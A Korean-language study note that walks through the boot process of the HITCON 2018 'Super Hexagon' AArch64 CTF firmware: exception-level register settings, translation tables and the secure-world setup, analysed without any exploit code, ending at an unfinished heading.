



# Super Hexagon

[super hexagon](https://github.com/nafod/super-hexagon/tree/master/super_hexagon) 은 HITCON2018 에 나온 AArch64 문제이다.  
이 문제의 목표는  
NS.EL0 에서 S.EL1 와 EL3 를 포함한 모든 Exception Level 에서 플래그를 읽는 것이다.

## Bios.bin

## 동작 분석

### Overview

문제에서는 bios.bin 파일이 주어진다. qemu 로 해당 바이오스를 실행하면 다음과 같은 문자가 출력되는 것을 볼 수 있다.

```
NOTICE:  UART console initialized
INFO:    MMU: Mapping 0 - 0x2844 (783)
INFO:    MMU: Mapping 0xe000000 - 0xe204000 (40000000000703)
INFO:    MMU: Mapping 0x9000000 - 0x9001000 (40000000000703)
NOTICE:  MMU enabled
NOTICE:  BL1: HIT-BOOT v1.0
INFO:    BL1: RAM 0xe000000 - 0xe204000
INFO:      SCTLR_EL3: 30c5083b
INFO:      SCR_EL3:   00000738
INFO:    Entry point address = 0x40100000
INFO:    SPSR = 0x3c9
VERBOSE: Argument #0 = 0x0
VERBOSE: Argument #1 = 0x0
VERBOSE: Argument #2 = 0x0
VERBOSE: Argument #3 = 0x0
NOTICE:  UART console initialized
[VMM] RO_IPA: 00000000-0000c000
[VMM] RW_IPA: 0000c000-0003c000
[KERNEL] mmu enabled
INFO:      TEE PC: e400000
INFO:      TEE SPSR: 1d3
NOTICE:  TEE OS initialized
[KERNEL] Starting user program …

=== Trusted Keystore ===

Command:
    0 - Load key
    1 - Save key

cmd>
```

위 문구를 보고 동작을 나누면 다음과 같다.

- EL3 의 MMU 설정 및 활성화 (참고: [[Study/Arm/Memory Management|Memory Management]])
- EL2 의 MMU(IPA) 설정 및 활성화 (참고: [[Study/Arm/Memory Management|Memory Management]])
- TrustOS 설정 (참고: [[TrustZone]])
- EL0 User Program 실행

### Translation Overview

EL3 에서 EL0 에서 사용되는 페이징 구조는 다음과 같다.  


### EL3

EL3 의 EntryPoint 는 bios.bin 의 `0x0000_0000` 에 위치한다.

부팅을 할 떄 EL3 에서 하는 동작은 다음과 같다:

- EL3 레지스터 설정
- Exception Handler 설정 (참고: [[Exception Level]])
- UART 설정
- MMU 설정
	- Translation Table 설정
	- VA -> IPA 설정
- EL2 및 EL1 바이너리 복사
- EL2 로 넘어가면서 EL2 의 EntryPoint(`0x40100000`) 실행

#### EL3 레지스터 설정

설정하는 레지스터는 다음과 같다:

- **SCTLR_EL3**: 0x30C50830; EIS=1, EOS=1, A=1, SA=1, I=1
	- EIS: The taking of an exception to EL3 is a context synchronizing event.
	- EOS: An exception return from EL3 is a context synchronizing event
	- A: Alignment fault checking is enabled when executing at EL3. All instructions that load or store one or more registers have an alignment check that the address being accessed is aligned to the size of the data element(s) being accessed. If this check fails it causes an Alignment fault, which is taken as a Data Abort exception.
	- SA: if a load or store instruction executed at EL3 uses the SP as the base address and the SP is not aligned to a 16-byte boundary, then a SP alignment fault exception is generated. For more information, see 'SP alignment checking'.
	- I: This control has no effect on the Cacheability of instruction access to Normal memory from EL3. If the value of SCTLR_EL3.M is 0, instruction accesses from stage 1 of the EL3 translation regime are to Normal, Outer Shareable, Inner Write-Through, Outer Write-Through memory.
- **SCR_EL3**: 0x238; EA=1, TWE=1
	- EA: When executing at any Exception level, External aborts and SError exceptions are taken to EL3.
	- TWE: Any attempt to execute a WFE instruction at any Exception level lower than EL3 is trapped to EL3, if the instruction would otherwise have caused the PE to enter a low-power state and it is not trapped by [SCTLR](https://developer.arm.com/documentation/ddi0601/2024-03/AArch32-Registers/SCTLR--System-Control-Register?lang=en).nTWE, [HCR](https://developer.arm.com/documentation/ddi0601/2024-03/AArch32-Registers/HCR--Hyp-Configuration-Register?lang=en).TWE, [SCTLR_EL1](https://developer.arm.com/documentation/ddi0601/2024-03/AArch64-Registers/SCTLR-EL1--System-Control-Register--EL1-?lang=en).nTWE, [SCTLR_EL2](https://developer.arm.com/documentation/ddi0601/2024-03/AArch64-Registers/SCTLR-EL2--System-Control-Register--EL2-?lang=en).nTWE, or [HCR_EL2](https://developer.arm.com/documentation/ddi0601/2024-03/AArch64-Registers/HCR-EL2--Hypervisor-Configuration-Register?lang=en).TWE.
- **MDCR_EL3**: 0x18000; SDD=1, SPD32=0b10
	- SDD: Debug exceptions, other than Breakpoint Instruction exceptions, are disabled from all Exception levels in Secure state.
	- SPD32: Secure privileged debug disabled. Debug exceptions from Secure EL1 are disabled.
- **DAIF**: 0x160; D=1, I=1, F=1
	- Debug, IRQ, FIQ 를 무시하고 SError 만 허용한다.
- **CPTR_EL3**: 0x00
- **SPSEL**: 수시로 바뀜

#### Exception Handler 설정

IVT 를 설정하는 레지스터인 **VBAR_EL3**는 `0x2000` 으로 설정된다. 해당 주소를 보면 총 16 개의 Exception Handler 가 존재한다.  
하지만 이 중 유의미한 동작을 하는 Handler 는 자신보다 낮은 EL 에서 발생하는 Synchronous Exception 을 처리하는 2 개의 Handler 밖에 없다. 그리고 이 2 개의 Handler 도 TrustOS 를 초기화하는 비슷한 동작을 수행한다.

#### MMU 설정

여기서 설정하는 레지스터는 다음과 같다:

- **TCR_EL3**: 0x100022; T0SZ=34, TBI=1
	- T0SZ: The size offset of the memory region addressed by [TTBR0_EL3](https://developer.arm.com/documentation/ddi0601/2024-03/AArch64-Registers/TTBR0-EL3--Translation-Table-Base-Register-0--EL3-?lang=en). The region size is $2^{(64-\\{T0SZ})}$ bytes.
	- TBI: Top Byte ignored in the address calculation.
- **MAIR_EL3**: 0xDD440400
	- Attr0=0x00; Device-nGnRnE
	- Attr1=0x04; Device-nGnRE
	- Attr2=0x44; Device-nGnRE, (If FEAT_XS is implemented) Normal Inner Non-cacheable, Outer Non-cacheable
	- Attr3=0xDD; Unpredictable
- **SCTLR_EL3**: M |= 1
	- M: EL3 stage 1 address translation enabled.
- **TTBR0_EL3**: 0xe203000 ->
	- 0x00: 0xE003003 (Entry: 0xE003000) ->
		- 0x0: 0x783
		- 0x1: 0x1783
		- 0x2: 0x2783
		- 0x3: 0 …
	- 0x47: 0xE004003 … -> 0
	- 0x48: 0xE04B003 (Entry: 0xE04B000) ->
		- 0x0: 0x40000009000703
		- 0x1: 0 …
	- 0x6F: 0xE04C003 … -> 0
	- 0x70: 0xE073003 (Entry: 0xE073000) ->
		- 0x0000: 0x4000000E000703
		- 0x0001: 0x4000000E001703
		- 0x0002: 0x4000000E002703
		- …
		- 0x01FF: 0x4000000E203703
	- 0x71: 0xE074003 (Entry: 0xE074000) ->
		- 0x0: 0x4000000E200703
		- 0x1: 0x4000000E201703
		- 0x2: 0x4000000E202703
		- 0x3: 0x4000000E203703
		- 0x4: 0 …
	- 0xE075003 … 0xE202003-> 0

`T0SZ=34` 이기 때문에 OA 는 0~29 비트만 사용할 수 있다. 또한 `TCR_EL3.DS=0` 이고 `TCR_EL3.PS=0b000` 이기 때문에 32-bit OA 를 사용한다. 즉, Level 2 와 Level 3 만 사용한다. 따라서 두 번째로 나타나는 Entry 는 Page Entry 이다.  
  
이 점을 생각하면서 테이블에 있는 Page Entry 를 해석하면 다음과 같다:

- `0x00: 0xE003003 -> 0xn783`:
	- 1 번째 비트가 1 이므로 Page Entry 를 사용
	- AF = 1
	- SH\[1:0\] = 0b11
	- AP = 0b10; PrivRead
	- AttrIndx = 0
	- IA = `0xn000` (`(0x00 << 21) + (0xn << 12)`) (0 <= n <= 2)
	- OA = `0xn000` (0x00 <= n <= 2)
- `0x48: 0xE04B003 -> 0x40000009000703`:
	- 1 번째 비트가 1 이므로 Page Entry 를 사용
	- AF = 1
	- AP=0b00; PrivRead, PrivWrite
	- SH\[1:0\] = 0b11
	- XN = 1
	- AttrIndx = 0
	- IA = `0x9000000` (`(0x48 << 21) + (0x0 << 12)`)
	- OA = `0x9000000`
- `0x70: 0xE073003 -> 0x4000000Ennn703`:
	- 1 번째 비트가 1 이므로 Page Entry 를 사용
	- AF = 1
	- AP = 0b00; PrivRead, PrivWrite
	- SH\[1:0\] = 0b11
	- XN = 1
	- AttrIndx = 0
	- IA = `0xEnnn000` (`(0x70 << 21) + (0xnnn << 12)`) (0 <= nnn <= 0x01FFF)
	- OA = `0xEnnn000`
- `0x71: 0xE074003 -> 0x4000000E20n703`:
	- 1 번째 비트가 1 이므로 Page Entry 를 사용
	- AF = 1
	- AP = 0b00; PrivRead, PrivWrite
	- SH\[1:0\] = 0b11
	- XN = 1
	- AttrIndx = 0
	- IA = `0xE20n000` (`(0x71 << 21) + (0xn << 12)`) (0 <= n <= 3)
	- OA = `0xE20n000`

#### EL2 및 EL1 바이너리 복사

EL2 의 코드 영역을 0x40100000 에 복사하고 EL1 의 코드 영역 (Translation Table 포함) 을 0x40000000 에 복사한다.  
그 외에도 TEE 와 관련된 데이터를 0xE000000 와 0xE400000(TEE PC) 에 복사한다. 참고로 TrustZone 을 실행할 때 `SPSR=0x1d3` 이기 때문에 `nRW=1` 이다. 따라서 TrustZone 은 AArch32 로 동작한다.

#### EL2 로 넘어가면서 EL2 의 EntryPoint 실행

이 때 설정하는 레지스터는 다음과 같다:

- **SCR_EL3**: 0x731; HCE=1, NS=1, SIF=1, RW=1
	- HCE: The `HVC` instruction is enabled at EL1, EL2 or EL3.
	- EL0 and EL1 are in Non-secure state, memory accesses from those exception levels cannot access Secure memory.
	- SIF: Secure state instruction fetches from Non-secure memory are not permitted.
	- RW: The next lower level is AArch64.

그리고 EL2 로 넘어가면서 EntryPoint 를 실행하기 위해 설정하는 레지스터는 다음과 같다:

- **SPSR_EL3**: 0x3c9; D=1, A=1, I=1, F=1, EL2
- **ELR_EL3**: 0x40100000

그리고 `ERET` 을 통해 EL2 의 EntryPoint 를 실행한다.

### EL2

EL2 의 Entry Point 는 bios.bin 의 `0x0001_0000` 에 위치한다. 메모리에 로드되면 `0x40100000` 에 위치한다.  
부팅을 할 때 EL2 에서 수행하는 동작은 다음과 같다:

- EL2 레지스터 설정
- Exception Handler 설정 (참고: [[Exception Level]])
- UART 설정
- MMU 설정
	- Translation Table 설정
	- VA -> IPA 설정
- EL1 으로 넘어가면서 EL1 의 EntryPoint(EL1_VA:`0x00` = PA:`0x40000000`) 실행

#### EL2 레지스터 설정

EL2 에서 설정하는 레지스터는 다음과 같다:

- **CPACR_EL1**: 0x300000; FPEN=0b11
	- FPEN: 하위 권한이 EL2 의 SIMD 에 접근할 때 Trap 을 발생시키지 않는다.
- **SPSEL**: 수시로 바뀜

#### Exception Handler 설정

IVT 를 설정하는 레지스터인 `VBAR_EL2` 는 0x40101800 로 설정된다. 이 곳에는 `Lower EL using AArch64 Synchronous Exception` 을 제외한 다른 예외는 아무런 동작을 하지 않게 설정되어 있다.

`Lower EL using AArch64 Synchronous Exception` 에서는 `ESR_EL2.EC` 에 따라서 두 가지 동작을 수행한다:

- `ESR_EL2.EC == 0x16`: EL2 의 권한으로 Translation Table 의 Entry 를 변경한다
- `ESR_EL2.EC == 0x17`: `SMC 0x00` 을 통해 EL3 Exception 을 발생시켜 TEE-OS 를 초기화한다.

#### MMU 설정

여기서 설정하는 레지스터는 다음과 같다:

- **VTCR_EL2**: 0x80000027; T0SZ=39, DS=0, PS=0b000
- **VTTBR_EL2**: 0x40106000 ->
	- `0x00: 0x40107003` (Descriptor Entry: 0x40107000) ->
		- `0x00: 0x40000443` (Page Entry)
		- `0x01: 0x40001443` (Page Entry)
		- …
		- `0x0B: 0x4000B443` (Page Entry)
		- `0x0C: 0x4000004000C4C3` (Page Entry)
		- `0x0D: 0x4000004000D4C3` (Page Entry)
		- …
		- `0x3A: 0x4000004003A4C3` (Page Entry)
		- `0x3B: 0x400000090004C3` (Page Entry)
		- `0x3C: 0 …`
	- `0x08: 0 …`

여기서 `V~_EL2` 라는 것은 EL1 과 EL0 의 IPA 를 설정하는 것이다. 즉 이 설정으로 인해 EL2 에서 Translation 이 발생하지는 않는다.  
![[arm_address_space_in_armb8-a.png]]

`VTCR_EL2.T0SZ=39` 이기 때문에 VA 는 0~24 비트만 사용할 수 있다. 그리고 `VTCR_EL2.PS=0b000` 이기 때문에 32bit OA 를 사용한다. 즉, Level 2 와 Level 3 만 사용한다. 따라서 두 번째로 나타나는 Entry 는 Page Entry 이다.  
  
이 점을 생각하면서 테이블에 있는 Page Entry 를 해석하면 다음과 같다:

- `0x00: 0x40107003` (Descriptor Entry: 0x40107000) ->
	- `0x00: 0x40000443` ~ `0x0B: 0x4000B443`:
		- 1 번째 비트가 1 이므로 Page Entry 를 사용
		- AF = 1
		- S2AP = 0b01; EL0&EL1 can read this memory
		- IPA = `0xn000` (`(0x00 << 21) + (0xn << 12)`) (0x00 <= n < 0x0C)
		- OA = `0x4000n000`
	- `0x0C: 0x4000004000C4C3` ~ `0x3A: 0x4000004003A4C3`:
		- 1 번째 비트가 1 이므로 Page Entry 를 사용
		- NX = 1 (FEAT_XNX is not implemented)
		- AF = 1
		- S2AP = 0b11; EL0&EL1 can read and write this memory
		- IPA = `0x0nn000` (`(0x00 << 21) + (0xnn << 12)`) (0x0C <= nn < 0x3B)
		- OA = `0x400nn000`
	- `0x3B: 0x400000090004C3`
		- 1 번째 비트가 1 이므로 Page Entry 를 사용
		- NX = 1 (FEAT_XNX is not implemented)
		- AF = 1
		- S2AP = 0b11; EL0&EL1 can read and write this memory
		- IPA = `0x03B000` (`(0x00 << 21) + ((0x3B) << 12)`)
		- OA = `0x9000000`

#### EL1 으로 넘어가면서 EL1 의 EntryPoint 실행

이때 설정하는 레지스터는 다음과 같다:

- **HCR_EL2**: 0xc4080001; RW=1, TRVM=1, TVM=1, TSC=1, VM=1
	- RW: EL1 is AArch64. EL0 is determined by the register width described in the current processing state when executing at EL0.
	- TRVM: Non-secure EL1 reads are trapped to EL2.
	- TVM: DC ZVA instruction is trapped to EL2 when executed in Non-secure EL1 or EL0.
	- TSC: `SMC` instruction executed in Non-secure EL1 is trapped to EL2 for AArch32 and AArch64 Execution states.
	- VM: Enables second stage translation for execution in Non-secure EL1 and EL0.

그리고 EL1 으로 넘어가기 위해 사용하는 레지스터는 다음과 같다:

- **SPSR_EL2**: 0x3c5; E=1, A=1, I=1, F=1, EL1
- **ELR_EL2**: VA:0x00 (PA:0x40000000)

그리고 `ERET` 을 통해 EL1 의 EntryPoint 를 실행한다.

### EL1

EL1 의 EntryPoint 는 bios.bin 의 `0x000B_0000` 에 위치한다. 메모리에 로드되면 EL1_VA:`0x00`(= PA:`0x40000000`) 에 위치한다.

부팅을 할 때 EL1 에서 수행하는 동작은 다음과 같다:

- 레지스터 설정
- MMU 설정
- Exception Handler 설정 (Main Routine 에서)
- Main Routine 호출
- SMC 호출 (Main Routine 에서)
- EL0 호출 (Main Routine 에서)

#### 레지스터 설정

EL1 의 EntryPoint 에서 설정하는 레지스터는 다음과 같다:

- **TCR_EL1**: 0x6080100010; TBI1=1, TBI0=1, TG1=0b10, T1SZ=0x10, T0SZ=0x10
	- TBI\<n\>: Top Byte Ignored for TTBR\<n\>\_EL1
	- TG\<n\>: Granule size for the TTBR\<n\>\_EL1
	- T\<n\>SZ: The size offset of the memory region addressed by TTBR\<n\>\_EL1
- **SCTLR_EL1**: 0x30d00801; LSMAOE=1, nTLSMD=1, SPAN=1, EIS=1, TSCXT=1, EOS=1, M=1
- **SPSEL**: 수시로 바뀜

#### MMU 설정

- **TTBR0_EL1**: 0x1000 ->
	- `0x00: 0x2003` ->
		- `0x00: 0x3003` ->
			- `0x00: 0x401`
			- `0x01: 0 …`
		- `0x01:0 …`
	- `0x01: 0 …`
- **TTBR1_EL1**: 0x4000 ->
	- `0x0000: 0 … `
	- `0x01FF:0x5003` ->
		- `0x0000: 0 …`
		- `0x01FF:0x6003` ->
			- `0x00: 0x401`
			- `0x01: 0 …`
			- `0x07: 0x7003` ->
				- `0x0000: 0 …`
				- `0x01FF: 0x3b403`
			- `0x08: 0 …`

TCR_EL1.T1SZ = TCR_EL1.T0SZ = 16 인 것을 생각하면서 위 테이블을 해석하면 다음과 같다.  


- **TTBR0_EL1** ->
	- `0x00: 0x2003` ->
		- `0x00: 0x3003` ->
			- `0x00: 0x401`
				- 2MB Block
				- AF = 1
				- IA = `0x0000`
				- IPA = `0x0000`
			- `0x01: 0 …`
		- `0x01:0 …`
	- `0x01: 0 …`
- **TTBR1_EL1** ->
	- `0x0000: 0 … `
	- `0x01FF:0x5003` ->
		- `0x0000: 0 …`
		- `0x01FF:0x6003` ->
			- `0x00: 0x401`
				- 2MB Block
				- AF = 1
				- IA = `0xFFFFFFFFC0000000` (`(0xFFFF << 48) + (0x1FF << 39) + (0x1FF << 30)`)
				- IPA = `0x0000`
			- `0x01: 0 …`
			- `0x07: 0x7003` ->
				- `0x0000: 0 …`
				- `0x01FF: 0x3b403`
					- 4KB Page
					- AF = 1
					- IA = `0xFFFFFFFFC0FFF000` (`(0xFFFF << 48) + (0x1FF << 39) + (0x1FF << 30) + (0x7 << 21) + (0x1FF << 12)`)
					- IPA = `0x3B000`
			- `0x08: 0 …`

#### Main Routine 호출

VA:`0xFFFFFFFFC0008000`(-> IPA:`0x8000` -> PA:`0x40008000`; EL1_MainRoutine) 을 단순히 `BR` 로 호출한다.

EL1 의 MainRoutine 는 bios.bin 의 `0x000B_8000` 에 위치한다. 메모리에 로드되면 EL1_VA:`0xFFFFFFFFC0008000`(= PA:`0x40008000`) 에 위치한다.

##### Exception Handler 설정

- **VBAR_EL1**: 0xffffffffc000a000
	- VA:`0xFFFFFFFFC000A000` = IPA:`0xA000` = PA:`0x4000A000`  
다른 EL 과 마찬가지로 대부분의 핸들러는 별다른 동작을 하지 않으며 낮은 EL 에서 발생하는 Synchronous Exception 만 처리한다.

해당 Synchronous Exception 에서 System Call 들을 정의하고 있으며 존재하는 Syscall 들은 다음과 같다:

- read
- write
- mmap
- mprotect
- exit  
여기서 mmap 과 mprotect 는 ttbr0_el1 의 entry 를 수정하고 hvc 를 통해 vttbr0_el2 를 수정한다.  

그리고 secure call 도 정의되어 있다:

- tc_init_trustlet
- tc_register_wsm
- tc_tci_call  
이 secure call 들은 smc 를 호출한다.

##### MMU 설정

- **TTBR0_EL1**: 0x20000 ->
	- `0x0000: 0x21003` ->
		- `0x00: 0x22003` ->
			- `0x00: 0 …`
			- `0x02: 0x23003` ->
				- `0x00: 0x2000000002C4C3`
				- `0x01: 0x2000000002D4C3`
				- `0x02: 0x2000000002E4C3`
				- `0x03: 0 …`
				- `0x12: 0x6000000002F443`
				- `0x13: 0…`
			- `0x03: 0 …`
		- `0x01: 0 …`
	- `0x0001: 0 …`
	- `0x00FF: 0x24003` ->
		- `0x0000: 0 …`
		- `0x01FD: 0x25003` ->
			- `0x0000: 0 …`
			- `0x01FF: 0x26003` ->
				- `0x0000: 0 …`
				- `0x01FE: 0x60000000030443`
				- `0x01FF: 0x60000000031443`
	- `0x0100: 0 …`
- **TTBR1_EL1**: 0x1B000 ->
	- `0x000: 0 …`
	- `0x01FF: 0x1C003` ->
		- `0x000: 0 …`
		- `0x01FF: 0x1D003` ->
			- `0x00: 0x1E003` ->
				- `0x00: 0x40000000000483`
				- `0x01: 0x40000000001483`
				- …
				- `0x0A: 0x4000000000A483`
				- `0x0B: 0`
				- `0x0C: 0x6000000000C403`
				- `0x0D: 0x6000000000D403`
				- …
				- `0x3A: 0x6000000003A403`
				- `0x3B: 0 …`
			- `0x01: 0 …`
			- `0x48: 0x1F003` ->
				- `0x00: 0x6000000003b403`
				- `0x01: 0 …`

마찬가지로 TCR_EL1.T1SZ = TCR_EL1.T0SZ = 16 인 것을 생각하면서 위 테이블을 해석하면 다음과 같다.  


- **TTBR0_EL1** ->
	- `0x0000: 0x21003` ->
		- `0x00: 0x22003` ->
			- `0x00: 0 …`
			- `0x02: 0x23003` ->
				- `0x00: 0x2000000002C4C3` - `0x02: 0x2000000002E4C3`
					- PXN = 1
					- AF = 1
					- AP = 0b11; PrivRead, UnprivRead
					- IA: `0x40n000` (`(0 << 39) + (0 << 30) + (0x02 << 21) + (n << 12)`) (0x00 <= n <= 0x02)
					- IPA: `0x2n000` (0xC <= n <= 0xE)
				- `0x03: 0 …`
				- `0x12: 0x6000000002F443`
					- UXN = 1
					- PXN or PIIndex\[2\] = 1
					- AF = 1
					- AP = 0b01; PrivRead, PrivWrite, UnprivRead, UnprivWrite
					- IA: `0x412000` (`(0 << 39) + (0 << 30) + (0x02 << 21) + (0x12 << 12)`)
					- IPA: `0x2F000`
				- `0x13: 0…`
			- `0x03: 0 …`
		- `0x01: 0 …`
	- `0x0001: 0 …`
	- `0x00FF: 0x24003` ->
		- `0x0000: 0 …`
		- `0x01FD: 0x25003` ->
			- `0x0000: 0 …`
			- `0x01FF: 0x26003` ->
				- `0x0000: 0 …`
				- `0x01FE: 0x60000000030443` - `0x01FF: 0x60000000031443`
					- UXN = 1
					- PXN = 1
					- AF = 1
					- AP = 0b01; PrivRead, PrivWrite, UnprivRead, UnprivWrite
					- IA: `0x7FFF7FFFE000` - `0x7FFF7FFFF000` (`(0xFF << 39) + (0x1FD << 30) + (0x1FF << 21) + (n << 12)`) (0x1FE <= n <= 0x1FF)
					- IPA: `0x3n000` (0 <= n <= 1)
	- `0x0100: 0 …`
- **TTBR1_EL1** ->
	- `0x000: 0 …`
	- `0x01FF: 0x1C003` ->
		- `0x000: 0 …`
		- `0x01FF: 0x1D003` ->
			- `0x00: 0x1E003` ->
				- `0x00: 0x40000000000483` - `0x0A: 0x4000000000A483`
					- UXN = 1
					- AF = 1
					- AP = 0b10; PrivRead
					- IA: `0xFFFFFFFFC000n000` (`(0xFFFF << 48) + (0x1FF << 39) + (0x1FF << 30) + (0 << 21) + (n << 12)`) (0 <= n <= A)
					- IPA: `0xn000` (0 <= n <= A)
				- `0x0B: 0`
				- `0x0C: 0x6000000000C403` - `0x3A: 0x6000000003A403`
					- UXN = 1
					- PXN = 1
					- AF = 1
					- AP = 0b00; PrivRead, PrivWrite
					- IA: `0xFFFFFFFFC00nn000` (`(0xFFFF << 48) + (0x1FF << 39) + (0x1FF << 30) + (0 << 21) + (n << 12)`) (0x0C <= n <= 0x3A)
					- IPA: `0xnn000` (0x0C <= nn <= 0x3A)
				- `0x3B: 0 …`
			- `0x01: 0 …`
			- `0x48: 0x1F003` ->
				- `0x00: 0x6000000003B403`
					- UXN = 1
					- PXN = 1
					- AF = 1
					- AP = 0b00; PrivRead, PrivWrite
					- IA: `0xFFFFFFFFC9000000` (`(0xFFFF << 48) + (0x1FF << 39) + (0x1FF << 30) + (0x48 << 21) + (0 << 12)`)
					- IPA: `0x3B000`
				- `0x01: 0 …`

그리고 EL2 의 Exception 을 호출하여 EL2 의 Transltaion Table Entry 를 변경한다:

- **VTTBR_EL2**: 0x40106000 ->
	- `0x00: 0x40107003` (Descriptor Entry: 0x40107000) ->
		- `0x00: 0x40000443` (기존과 동일)
		- `0x01: 0x40001443` (기존과 동일)
		- …
		- `0x0B: 0x4000B443` (기존과 동일)
		- `0x0C: 0x4000004000C4C3` (기존과 동일)
		- `0x0D: 0x4000004000D4C3` (기존과 동일)
		- …
		- `0x2B: 0x4000004002B4C3` (기존과 동일)
		- `0x2C: 0x4002C443` - `0x2E: 0x4002E443` ->
			- Page Entry
			- AF = 1
			- AP = 0b01
			- IA = `0xnn000` (`(0 << 21) + (0xnn << 12)`) (0x2C <= nn <= 0x2E)
			- OA = `0x400nn000` (0x2C <= nn <= 0x2E)
		- `0x2F: 0x4000004002F4C3` (기존과 동일)
		- …
		- `0x3A: 0x4000004003A4C3` (기존과 동일)
		- `0x3B: 0x400000090004C3` (기존과 동일)
		- `0x3C: 0 …` (기존과 동일)
	- `0x08: 0 …` (기존과 동일)

##### SMC 호출

EL0 로 넘어가기 전에 `SMC 0x00` 를 호출한다. 이 때 설정되는 레지스터는 다음과 같다:

- `X0 = 0x83000001`
- `X1 = 0`
- `X2 = 0
- `X3 = 0`  

그리고 `SMC 0x00` 이 호출되면 EL2 의 하위 EL 에서 호출되는 `Lower EL using AArch64 Synchronous Exception` 가 호출된다. 그리고 이 때의 `ESR_EL2.EC = 0x17` 이므로 TEE-OS 를 초기화한다.

##### EL0 로 넘어가면서 EL0 의 EntryPoint(start) 호출

EL0 으로 넘어가기 위해 사용하는 레지스터는 다음과 같다:

- **SPSR_EL1**: 0x3c5; E=1, A=1, I=1, F=1, EL0
- **ELR_EL2**: VA:`0x4000e8` (PA:`?`)

그리고 `ERET` 을 통해 EL1 의 EntryPoint 를 실행한다.

### EL0

EL0 의 EntryPoint 는 bios.bin 의 `0x000B_C0F8` 에 위치한다. 메모리에 로드되면 EL1_VA:`0x4000E8`(= PA:`0x4000E8`) 에 위치한다.  
이 부분은 ELF 파일이므로 binwalk 를 사용하면 ELF 를 추출할 수 있다. 또한 심볼도 존재한다.

### Secure World

Secure World 는 `PA:0xE40000` 에 위치하며, 메모리에 적재되기 전에는 `0x20000` 에 위치한다. 또한 AArch32 로 작성되어 있다.

#### 설정

Secure World 는 EL3 에서 설정된다. 코드 영역은 EL3 의 EntryPoint 에서 `0xE40000` 로 `0x20000` 의 값을 복사하면서 설정된다. 이때 유의해야 할 부분은 Secure World 로 넘어갈 때 `SPSR=0x1D3` 이고 `nRW(M[4]=1` 이므로 AARCH32 로 동작한다. 그리고 `M[3:0]=0b0011` 이므로 Supervisor 로 들어간다.

그리고 실제로 Secure World 의 초기 상태를 만들고 실행하는 부분은 EL3 의 SMC Handler 에서 진행한다.

#### Secure World 초기화

Secure World 로 부팅되면 여러가지 초기화를 진행하며 여기서 초기화하는 것은 다음과 같다:

- MMU 초기화
- 레지스터 설정
- Exception Handler 설정

##### MMU 설정

최종적으로 설정되를 Translation Table 은 다음과 같다.

